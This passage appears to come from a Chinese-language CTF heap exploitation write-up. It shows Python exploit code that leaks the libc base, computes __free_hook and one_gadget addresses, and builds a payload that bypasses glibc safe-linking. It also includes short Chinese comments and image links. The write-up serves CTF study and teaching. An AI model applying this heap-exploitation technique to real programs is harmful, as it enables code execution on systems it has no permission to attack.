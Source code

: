 ```plain
edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)
free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)
```

这里找清楚，libc基地址是下面那个

[![](assets/1701612290-65ed18d9dc1fafe5edbe64b2f228013f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145623-8b5e92b8-2213-1.png)

```plain
pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))
```

利用原理绕过safe-linking

[![](assets/1701612290-d52a1271bd1cc67daebb4f599ffd779f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145641-95f37b3a-2213-1.png)
